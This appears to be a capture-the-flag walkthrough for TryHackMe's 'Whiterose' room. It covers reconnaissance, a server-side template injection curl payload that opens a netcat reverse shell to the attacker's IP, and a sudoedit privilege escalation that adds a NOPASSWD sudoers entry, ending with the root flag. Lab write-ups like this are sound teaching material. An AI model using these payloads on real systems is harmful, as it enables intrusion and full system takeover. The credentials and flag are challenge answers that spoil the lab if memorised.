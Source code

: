 ```yaml
---
title: "TryHackMe - Whiterose Walkthrough"
date: 2024-12-22
categories: [TryHackMe]
tags: [SSTI, RCE, Privilege Escalation]
image: assets/images/whiterose-Cover.jpg
---
```


# TryHackMe - Whiterose Walkthrough

---

## Initial Information
- **Username:** Olivia Cortez  
- **Password:** olivi8  

---

## Step 1: Nmap Scan

Run an Nmap scan to identify open ports and services:

```bash
sleep33@THM:~$ nmap -v -sVC -p- -oN nmap.txt $IP
```

### Results:
- **Port 22 (SSH):** OpenSSH 7.6p1 Ubuntu  
- **Port 80 (HTTP):** nginx 1.14.0 (Ubuntu)  

---

## Step 2: Configure Hosts File

Add the following to your `/etc/hosts` file:

```plaintext
sleep33@THM:~$ echo "10.246.13 cyprusbank.thm" | sudo tee -a /etc/hosts
```

---

## Step 3: Subdomain Enumeration

Enumerate subdomains using `ffuf`:

```bash
sleep33@THM:~$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1
```

### Found Subdomains:
- **www**: [200 OK]  
- **admin**: [302 Redirect]  

Add the following to your `/etc/hosts`:

```plaintext
sleep33@THM:~$ echo "10.246.13 admin.cyprusbank.thm" | sudo tee -a /etc/hosts
```

---

## Step 4: Admin Panel Access

1. Visit `http://admin.cyprusbank.thm/`.
2. Log in with:
   - **Username:** Olivia Cortez  
   - **Password:** olivi8  

---

## Step 5: Messages Exploration

Navigate through messages using the following URL format:

```bash
sleep33@THM:~$ curl http://admin.cyprusbank.thm/messages/?c=<number>
```

### Key Findings:
- **Credentials:**  
  ```plaintext
  GayleBev: p~]P@5!6;rs558:q
  ```
- **Phone Number:**  
  ```plaintext
  Tyrell Wellick: 842-029-5701
  ```

---

## Step 6: Exploiting SSTI (Server-Side Template Injection)

### Exploitation
Send a POST request to `/settings` using the following payload:

```bash
sleep33@THM:~$ curl -X POST -d "name=admin&password=admin&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('nc -e /bin/bash 10.14.91.33 4443');" http://admin.cyprusbank.thm/settings
```

---

## Step 7: Reverse Shell Setup

Set up a listener on your local machine:

```bash
sleep33@THM:~$ nc -lvnp 4443
```

---

## Step 8: Privilege Escalation

### Check Sudo Permissions

```bash
sleep33@THM:~$ sudo -l
```

### Exploit `sudoedit`

1. Export the editor:
   ```bash
   sleep33@THM:~$ export SUDO_EDITOR='nano -- /etc/sudoers'
   ```
2. Run:
   ```bash
   sleep33@THM:~$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
   ```

### Modify Sudoers File:
Add the following:

```plaintext
web ALL=(ALL:ALL) NOPASSWD: ALL
```

---

## Step 9: Gain Root

Switch to the root user:

```bash
sleep33@THM:~$ sudo bash
```

Navigate to `/root` and read the flag:

```bash
sleep33@THM:~$ cd /root
sleep33@THM:~$ cat root.txt
```

**Root Flag:**  
```plaintext
THM{4nd_uR_p4ck4g3s}
```

---
